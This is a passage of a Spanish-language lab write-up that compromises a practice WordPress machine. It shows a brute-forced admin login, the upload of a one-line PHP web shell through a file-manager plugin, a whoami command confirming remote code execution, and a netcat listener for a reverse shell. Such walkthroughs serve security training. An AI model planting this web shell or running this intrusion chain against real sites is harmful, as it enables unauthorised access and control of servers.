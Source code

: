 Tenemos una credencial valida de acceso
```bash
# Comandos para explotación
[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - admin / spongebob                              
Trying admin / spongebob Time: 00:00:01 <                  

[!] Valid Combinations Found:
```

Logramos ganar acceso al panel del administrador
```bash
http://thefirstavenger.thl/wp1/wp-admin/
```

Ahora lo que tenemos que ver es como explotar el tema desactualizado
```bash
[+] WordPress theme in use: twentytwentyfour
 | Location: http://thefirstavenger.thl/wp1/wp-content/themes/twentytwentyfour/
 | Last Updated: 2024-11-13T00:00:00.000Z
 | Readme: http://thefirstavenger.thl/wp1/wp-content/themes/twentytwentyfour/readme.txt
 | [!] The version is out of date, the latest version is 1.3
 | [!] Directory listing is enabled
```

Para aprovecharnos, Instalarremos el plugin: **( Administrador de archivos WP )** para poder cargar un archivo malicioso
Creamos un archivo malicioso desde nuestra maquina de atacante que contendra las siguientes instrucciones
```php
# shell.php

<?php
  system($_GET["cmd"]);
?>
```

Ahora desde esta ruta con el **Administrador de archivos WP** subiremos nuestro archivo malicioso: **shell.php**
```bash
http://thefirstavenger.thl/wp1/wp-content/uploads/
```

Ahora probamos atraves de nuestro archivo malicioso, si tenemos capacidad de ejecucion remota de comandos:
```bash
http://thefirstavenger.thl/wp1/wp-content/uploads/shell.php?cmd=whoami
```

Logramos **RCE** exitoso:
```bash
www-data
```
### Intrusion
Ahora que tenemos **RCE** nos pondemos en escucha para ganar acceso al objetivo
```bash
nc -nlvp 443
```
